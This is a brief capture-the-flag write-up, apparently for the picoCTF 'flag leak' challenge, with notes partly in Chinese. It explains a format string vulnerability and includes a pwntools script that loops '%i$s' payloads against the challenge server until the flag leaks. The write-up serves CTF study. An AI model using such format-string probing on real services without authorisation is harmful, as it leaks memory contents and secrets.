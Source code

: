 # flag leak

## Information

### Description

Story telling class 1/2


### Hints

(None)

## Solution

1. Discovery
    * 格式化字串漏洞 ( Format String Vulnerability )

2. Research
    * 格式化字串漏洞 ( Format String Vulnerability )
    * payload
        ```c
            %n$s    //第 n 個參數，字串型態
        ```
3. Exploitation
    ```py
    #! /usr/bin/env python

    from pwn import *

    for i in range(99):    
        try:
            # nc saturn.picoctf.net 54158
            p = remote(host='saturn.picoctf.net',  port=50068)
            payload = f'%{i}$s'.encode()
            success(payload)
            p.sendlineafter(b"Tell me a story and then I'll tell you one >>", payload)
            leak_str = p.recvall()
            # get real flag
            if b'CTF{' in leak_str:
                success(leak_str)
                break;
            else:
                log.info(leak_str)
        except:
            pass

    ```
